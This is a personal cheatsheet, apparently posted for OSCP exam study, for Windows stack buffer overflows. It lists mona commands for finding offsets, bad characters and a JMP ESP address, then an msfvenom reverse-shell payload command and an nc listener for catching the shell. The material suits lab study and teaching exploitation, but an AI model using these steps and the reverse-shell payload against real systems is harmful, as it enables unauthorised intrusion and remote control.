 ```yaml
---
layout: post
title: Buffer Overflow personal cheatsheet
tags: [OSCP, Buffer Overflow, cheatsheet]
description: "Buffer Overflow personal cheatsheet"

---
```


### Check for windows protections :

- C:\Users\thiba\Desktop\build\Release\winchecksec.exe <PATH.exe>

# Buffer Overflow "Normal" :

### Mona Configuration :

- mona config -set workingfolder c:\mona\%p

### Fuzzing :

- fuzzer.py / fuzzer2.py -> until app crash
- /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <SIZE> -> SIZE higher than crash offset

### Crash Replication & Controlling EIP :

- modify payload variable by pattern (exploit.py) 
- !mona findmsp -distance <SIZE> -> SIZE same as pattern
- EIP contains normal pattern : ... (offset XXXX) -> get the offset, modify offset variable (exploit.py)
- modify retn variable by "BBBB", remove payload
- Re-run exploit.py -> EIP should be "BBBB"

### Finding Bad Characters :

- !mona bytearray -b "\x00" -> copy results to payload variable
- Re-run exploit.py
- !mona compare -f C:\mona\oscp\bytearray.bin -a <ESP ADDRESS> -> copy bad chars
- !mona bytearray -b "\x00+<BAD CHARS>" -> copy results to payload variable
- !mona compare -f C:\mona\oscp\bytearray.bin -a <ESP ADDRESS> -> Repeat the badchar comparison until the results status returns
- "Unmodified". This indicates that no more badchars exist.

### Finding a Jump Point :

- !mona jmp -r esp -cpb "<BAD CHARS>" -> Choose an address and update exploit.py, setting the "retn" variable to the address, written backwards

### Generate Payload :

- msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> EXITFUNC=thread -b "<BAD CHARS>" -f py -> Copy the generated shell code setting the payload variable

### Prepend NOPs :

- padding = "\x90" * 16

### Start nc listerner :

- nc -lvp 1234

